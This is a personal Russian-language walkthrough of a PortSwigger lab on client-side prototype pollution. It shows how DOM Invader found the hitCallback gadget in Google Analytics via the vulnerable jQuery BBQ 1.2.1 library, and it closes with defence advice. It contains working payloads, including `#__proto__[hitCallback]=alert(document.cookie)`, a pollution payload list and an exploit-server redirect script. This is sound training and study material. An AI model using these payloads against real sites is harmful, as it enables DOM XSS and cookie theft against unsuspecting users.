




лаба https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries

гаджет в сторонней библиотеке

задание - нужно вызвать alert(document.cookie) через загрязнение прототипа 

----

можно взять пейлоад лист базовый и проверять все места куда передаются параметры, вручную подставляя параметры и через консоль проверять обьекты `Object.prototype`  или так `console.log(Object.prototype);`


```c

__proto__[test]=polluted&__proto__[test2]=polluted2&__proto__[test3]=polluted3
__proto__[test]=polluted&constructor.prototype.test2=polluted2


```
полный список для ручного поиска здесь [[0_theory_PrototypePollution!]]


----

но проще и быстрее запустить вот это дело, инвайдер от бурпа или его аналоги!

-----


на главной стр запускаю сразу ИНВАЙДЕР с пейлоадом 121212121

и он сразу нашел уязвимость эту, не пришлось вручную перебирать пейлоады!




речь про какой-то `HASH (1)`

тест показал страницу с уязвимостью по такому пейлоаду
`https://0a6e00780482d6a880ec036000ac00ff.web-security-academy.net/#__proto__[testproperty]=DOM_INVADER_PP_POC`
и по такому пейлоаду
`https://0a6e00780482d6a880ec036000ac00ff.web-security-academy.net/#constructor[prototype][testproperty]=DOM_INVADER_PP_POC`

проверю через консоль `Object.prototype`
видно , что пейлоад попал внутрь движка js, осталось лишь найти походящий объект-гаджет в который его нужно подставить!




-----
инвайдер не помог с поиском гаджета

изучаю карту сайта и вижу почти с десяток разных JS файлов!!
со словом `HASH (1)` связано два файла

```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 4118

/*
 * jQuery BBQ: Back Button & Query Library - v1.2.1 - 2/17/2010
 * http://benalman.com/projects/jquery-bbq-plugin/
 *
 * Copyright (c) 2010 "Cowboy" Ben Alman
 * Dual licensed under the MIT and GPL licenses.
 * http://benalman.com/about/license/
 */
(function($,p){
var i,m=Array.prototype.slice,
r=decodeURIComponent,
a=$.param,
c,
l,
v,
b=$.bbq=$.bbq||{},q,u,j,e=$.event.special,
d="hashchange",
A="querystring",
D="fragment",
y="elemUrlAttr",
g="location",
k="href",
t="src",
x=/^.*\?|#.*$/g,
w=/^.*\#/,
h,C={};

function E(F){return typeof F==="string"}function B(G){var F=m.call(arguments,1);

return function(){
return G.apply(this,F.concat(m.call(arguments)))}}


function n(F){
return F.replace(/^[^#]*#?(.*)$/,"$1")
}

function o(F){
return F.replace(/(?:^[^?#]*\?([^#]*).*$)?.*/,"$1")
}

function f(H,M,F,I,G){var O,L,K,N,J;if(I!==i){K=F.match(H?/^([^#]*)\#?(.*)$/:/^([^#?]*)\??([^#]*)(#?.*)/);J=K[3]||"";

if(G===2&&E(I)){L=I.replace(H?w:x,"")
}else{
N=l(K[2]);I=E(I)?l[H?D:A](I):I;L=G===2?I:G===1?$.extend({},I,N):$.extend({},N,I);

L=a(L);
if(H){L=L.replace(h,r)}}O=K[1]+(H?"#":L||!K[1]?"?":"")+L+J}else{O=M(F!==i?F:p[g][k])
}
return O}a[A]=B(f,0,o);a[D]=c=B(f,1,n);c.noEscape=function(G){G=G||"";var F=$.map(G.split(""),encodeURIComponent);

h=new RegExp(F.join("|"),"g")};c.noEscape(",/");$.deparam=l=function(I,F){var H={},G={"true":!0,"false":!1,"null":null};$.each(I.replace(/\+/g," ").split("&"),function(L,Q){var K=Q.split("="),P=r(K[0]),J,O=H,M=0,R=P.split("]["),N=R.length-1;if(/\[/.test(R[0])&&/\]$/.test(R[N])){R[N]=R[N].replace(/\]$/,"");R=R.shift().split("[").concat(R);N=R.length-1}else{N=0}if(K.length===2){J=r(K[1]);if(F){J=J&&!isNaN(J)?+J:J==="undefined"?i:G[J]!==i?G[J]:J}if(N){for(;M<=N;M++){P=R[M]===""?O.length:R[M];O=O[P]=M<N?O[P]||(R[M+1]&&isNaN(R[M+1])?{}:[]):J}}else{if($.isArray(H[P])){H[P].push(J)}else{if(H[P]!==i){H[P]=[H[P],J]}else{H[P]=J}}}}else{if(P){H[P]=F?i:""}}});return H};function z(H,F,G){if(F===i||typeof F==="boolean"){G=F;F=a[H?D:A]()}else{F=E(F)?F.replace(H?w:x,""):F}return l(F,G)}l[A]=B(z,0);l[D]=v=B(z,1);$[y]||($[y]=function(F){return $.extend(C,F)})({a:k,base:k,iframe:t,img:t,input:t,form:"action",link:k,script:t});j=$[y];function s(I,G,H,F){if(!E(H)&&typeof H!=="object"){F=H;H=G;G=i}return this.each(function(){var L=$(this),J=G||j()[(this.nodeName||"").toLowerCase()]||"",K=J&&L.attr(J)||"";L.attr(J,a[I](K,H,F))})}$.fn[A]=B(s,A);$.fn[D]=B(s,D);b.pushState=q=function(I,F){if(E(I)&&/^#/.test(I)&&F===i){F=2}var H=I!==i,G=c(p[g][k],H?I:{},H?F:2);p[g][k]=G+(/#/.test(G)?"":"#")};b.getState=u=function(F,G){return F===i||typeof F==="boolean"?v(F):v(G)[F]};b.removeState=function(F){var G={};if(F!==i){G=u();$.each($.isArray(F)?F:arguments,function(I,H){delete G[H]})}q(G,2)};e[d]=$.extend(e[d],{add:function(F){var H;function G(J){var I=J[D]=c();J.getState=function(K,L){return K===i||typeof K==="boolean"?l(I,K):l(I,L)[K]};H.apply(this,arguments)}if($.isFunction(F)){H=F;return G}else{H=F.handler;F.handler=G}}})})(jQuery,this);
/*
 * jQuery hashchange event - v1.2 - 2/11/2010
 * http://benalman.com/projects/jquery-hashchange-plugin/
 *
 * Copyright (c) 2010 "Cowboy" Ben Alman
 * Dual licensed under the MIT and GPL licenses.
 * http://benalman.com/about/license/
 */
(function($,i,b){var j,k=$.event.special,c="location",d="hashchange",l="href",f=$.browser,g=document.documentMode,h=f.msie&&(g===b||g<8),e="on"+d in i&&!h;function a(m){m=m||i[c][l];return m.replace(/^[^#]*#?(.*)$/,"$1")}$[d+"Delay"]=100;k[d]=$.extend(k[d],{setup:function(){if(e){return false}$(j.start)},teardown:function(){if(e){return false}$(j.stop)}});j=(function(){var m={},r,n,o,q;function p(){o=q=function(s){return s};if(h){n=$('<iframe src="javascript:0"/>').hide().insertAfter("body")[0].contentWindow;q=function(){return a(n.document[c][l])};o=function(u,s){if(u!==s){var t=n.document;t.open().close();t[c].hash="#"+u}};o(a())}}m.start=function(){if(r){return}var t=a();o||p();(function s(){var v=a(),u=q(t);if(v!==t){o(t=v,u);$(i).trigger(d)}else{if(u!==t){i[c][l]=i[c][l].replace(/#.*/,"")+"#"+u}}r=setTimeout(s,$[d+"Delay"])})()};m.stop=function(){if(!n){r&&clearTimeout(r);r=0}};return m})()})(jQuery,this);


```

мешанина херни выше -  это лайба: `jQuery BBQ: Back Button & Query Library - v1.2.1 - 2/17/2010`


>	Это известная уязвимая библиотека. В GitHub-репозитории BlackFan  и в базе уязвимостей Vulners четко сказано: jQuery BBQ (версия 1.2.1) подвержена Prototype Pollution. Причем работает это как через параметры запроса (`?`), так и через фрагмент URL


спасибо алисе за инфу
> **jQuery BBQ** (Back Button & Query Library) — плагин для jQuery, который позволяет управлять историей на основе хеша и манипулировать параметрами URL для приложений на одной странице. 

> **Некоторые возможности jQuery BBQ:**

>- **Управление фрагментами URL**. Позволяет манипулировать location.hash для создания состояний приложения, которые можно сохранить в виде закладок. Для этого используются методы пространства имён $.bbq, включая pushState(), getState() и removeState().
>- **Обработка событий в разных браузерах**. Реализует надёжную систему событий hashchange, которая работает во всех браузерах, включая IE6/7. Для этого используются техники скрытого iframe и обратные вызовы опроса.
>- **Сериализация параметров**. Расширяет обработку параметров jQuery с помощью методов $.param.querystring(), $.param.fragment() и $.param.sorted() для построения и манипуляции URL.
>- **Десериализация параметров**. Предоставляет функциональность $.deparam() для анализа параметров URL и фрагментов обратно в объекты JavaScript с возможностью преобразования типа.
>- **Интеграция с элементами**. Обеспечивает методы коллекции jQuery для манипуляции атрибутами URL элементов. Например, $.fn.querystring() и $.fn.fragment() для обновления href, src и других атрибутов URL.


---------


итого - я нашел библиотеку древнюю и уязвимую 
 jQuery BBQ: Back Button & Query Library - v1.2.1 - 2/17/2010

возможно, именно в ней есть какая-то уязвимая функция

-----
вот тут конкретная инфа именно про эту версию этой библиотеки
https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/jquery-bbq.md

все на блюдичке с золотой коемочкой подано уже!

тут например , обьясняется , почему базовый мой пейлоад сработал!
```js

  ... итд , этот код не нужен для решения этой лабы
  
 $.deparam = jq_deparam = function( params, coerce ) {
    var obj = {},
      coerce_types = { 'true': !0, 'false': !1, 'null': null };
    
    // Iterate over all name=value pairs.
    $.each( params.replace( /\+/g, ' ' ).split( '&' ), function(j,v){
      var param = v.split( '=' ),
        key = decode( param[0] ),
        val,
        cur = obj,
        i = 0,
        
        // If key is more complex than 'foo', like 'a[]' or 'a[b][c]', split it
        // into its component parts.
        keys = key.split( '][' ),
        keys_last = keys.length - 1;
        
   ... итд , этот код не нужен для решения этой лабы
  };
```

------

вот мой пейлоад
`/#__proto__[testproperty]=DOM_INVADER_PP_POC`

вот мой эесплойт сервер лабы
`https://exploit-0aa500380444d60c80c0021c017a005e.exploit-server.net/exploit`

я долго тупил и читал код этой библиотеки, чтобы найти гаджет, но оказалось все проще, я тупо не донастроил инвайдер!
нужно ставить галочку на скан гаджетов!
поэтому в этой и в прошлых лабах приходилось вручную искать в коде места




-----

и вуаля - нашелся гаджет!
`https://0a6e00780482d6a880ec036000ac00ff.web-security-academy.net/#__proto__[hitCallback]=alert%281%29`
###### ГОТОВЫЙ ПЕЙЛОАД  `/#__proto__[hitCallback]=alert%281%29`




----

открываю 
`https://0a6e00780482d6a880ec036000ac00ff.web-security-academy.net/#__proto__[hitCallback]=alert%281%29`
и алерт сработал!!

меняю пейлоад на тот, что по заданию  - alert(document.cookie) -
`https://0a6e00780482d6a880ec036000ac00ff.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29`
алерт выполнился! супер!!!

теперь нужно просто отправить это дело через эксплойт сервер!!

```js
<script>
    location="https://0a6e00780482d6a880ec036000ac00ff.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>
```

ЛАБА РЕШЕНА!!!!!!

-----

#### выводы

наконец-то, жизнь заставила меня научиться пользоваться инвайдером от бурп

но также я поискал уязвимость в библиотеке вручную

в  лабе я использовал prototype pollution, чтобы выполнить dom xss через гаджет в сторонней библиотеке

источником уязвимости оказался фрагмент url (hash). Добавив в адресную строку пэйлоад `/#__proto__[testproperty]=DOM_INVADER_PP_POC`, я смог добавить произвольное свойство в `Object.prototype`. Это подтвердилось в консоли, где `Object.prototype.testproperty` вернул значение. (invader молодец, и все сделал за меня, красота. но я перепроверял все и ручным методом, чтобы понимать, как все делается под капотом)

после этого я разобрался как, и включил в dom invader опцию scan for gadgets, и запустил сканирование. Инструмент нашел гаджет `hitCallback` в библиотеке google analytics, которая тоже загружалась на странице. В коде google analytics обнаружилось, что свойство `hitCallback`читается из объекта настроек и передается в `setTimeout`

Так как у объекта не было своего свойства `hitCallback`, оно наследовалось из загрязненного прототипа. Финальный пэйлоад `/#__proto__[hitCallback]=alert(document.cookie)` добавил это свойство в прототип, google analytics подхватил его и выполнил через `setTimeout`

лаба решилась после отправки эксплойта через сервер

#### защита

от prototype pollution защищаются несколькими способами::::::::::::->

Во-первых, нужно замораживать прототипы с помощью `Object.freeze(Object.prototype)`. После этого никакие свойства нельзя будет добавить в прототип

Во-вторых, при создании объектов лучше использовать `Object.create(null)`. Такие объекты не имеют прототипа и не наследуют ничего из `Object.prototype`

В-третьих, для хранения данных безопаснее использовать `Map` вместо обычных объектов, потому что `Map` не наследует свойства из прототипа

в-четвертых, важно регулярно обновлять сторонние библиотеки, так как уязвимости в них часто патчат

в-пятых, нужно использовать инструменты автоматического сканирования, такие как dom invader, чтобы находить уязвимости до того, как их найдут злоумышленники


